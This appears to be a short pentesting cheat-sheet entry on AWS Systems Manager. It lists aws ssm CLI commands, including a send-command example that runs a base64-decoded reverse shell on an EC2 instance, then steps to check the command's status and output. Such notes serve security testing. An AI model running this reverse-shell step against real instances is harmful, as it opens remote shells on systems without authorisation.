 # Systems Manager (SSM)

SSM provides a centralised platform for configuring, managing, and maintaining servers and applications in your AWS environment.

- `aws ssm list-documents`: List documents
- `aws ssm send-command --document-name <name> --instance-ids <ec2_instance_id> --parameters '{"commands": ["echo <base64_revshell> | base64 -d | bash"]}' --output text`: Send command to EC2 instance
    - We note the `CommandId`
    - After, we list all commands: `aws ssm list-commands`, and we can see the status of our command (e.g. `Success`)
    - We can see the command output via `aws ssm get-command-invocation --command-id <command-id> --instance-id <instance-id>`
        - Alternatively, we can also run `aws ssm list-command-invocations --command-id <command-id> --instance-id <instance-id> --details`
    